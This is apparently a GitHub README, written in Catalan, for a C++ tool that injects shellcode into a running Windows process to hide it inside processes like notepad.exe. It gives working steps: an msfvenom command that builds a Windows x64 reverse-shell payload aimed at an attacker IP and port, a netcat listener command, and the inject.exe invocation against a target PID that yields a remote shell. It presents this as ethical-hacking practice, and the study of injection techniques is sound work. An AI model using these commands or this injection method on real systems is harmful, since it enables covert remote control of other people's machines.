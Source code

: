 ## Inject
Simple windows process code injection

## POC
El repte està en injectar un tros de codi executable dins un procés que ja es troba en execució. D'aquesta manera, el codi queda ocultat dins l'arbre de processos, com un fil d'execució dins un procés conegut, com per exemple, explorer.exe, notepad.exe, calc.exe, etc. 

## Descripció
En el repositori trobem una solució en c++ que mitjanant l' API de windows injecta codi en un procés que rep per la línia de comandes. El codi a injectar es troba en una variable **shellcode** en format de Bytecode. En l'exemple he utilitzat un petit codi que executa una shell inversa (reverse shell) de 6u bits (x64). Aquest codi, pot ser qualsevol cosa que se’ns passi pel cap. Però, ha de ser petit, quan més petit millor, ja que s'injecta en la memòria del procés. Podem trobar molt codi d'exemple per internet, un bon lloc és
https://www.exploit-db.com/shellcodes.

## Cas d'ús
El ByteCode (https://es.wikipedia.org/wiki/Bytecode) que utilitzat jo, no és funcional en qualsevol estació de treball, ja que està fet a mida perquè es connecti a un ordinador remot que jo he utilitzat.
Per fer la prova, calen dos ordinadors. Jo he utilitzat un Kali/linux per generar el ByteCode i per obrir un Netcat escoltat en un port (4444), on si tot va bé és connectarà el procés injectat.

Per generar el ByteCode he utilitzat una utilitat **msfvenom** del Framework Metasploit (https://www.metasploit.com/), instal.lat a Kali. Té moltes opcions, es digne d'estudi. Pot fer sortides de codi per diferents llenguatges i tecnologies. Pel cas que ens toca:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f c

Ex:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.28.123.152 LPORT=4444 -f c
```
La sortida la assignem a la variable **shellcode**. Tot seguit en un terminal de la Kali, engeguem el Netcat escoltant en el port triat.
```
nc -llvp 4444
```
Aquí, si tot va bé, és on ens trobarem una shell de windows de PC on hem injectat el codi.

Ara el en PC windows, on hi tenim el nostre programa **inject.exe**, engeguem per exemple el **notepad.exe**. Amb l'explorador de processos de windows, mirem el número de procés del **notepad.exe** (No tanquem l’arbre de processos, perquè això podem observar els fils d'execució que té). Tot seguit executem:
```
inject.exe [PID Notepad.exe]
Ex:
inject.exe 12345
```
Si tot ha anat bé, al Kali tenim una shell del windows amb els permisos d'usuari que té el procés del Notepad.exe a l'estació Windows. I a l'arbre de processos, un fil penjant del **Notepad.exe**

A partir d'aquí imaginació (no vull donar idees). És un pas necessari si et vols iniciar en el Hacking Ètic.

**La cançó** (Sempre escolto música quan escric, programo, penso en solucions...)

https://www.youtube.com/watch?v=bwNzGT-UX7c


Donacions

BTC = bc1q33wmuc0lcwh4krchfmxrt4jak3v628z658f85j

TRX = TRdxjgLv4nr8GYwsdXkUv4ZwCCTvfMqgnS

ETH = 0x3582cf65c158b23bbbaee3e3a3158ce4b5d99978

:_)
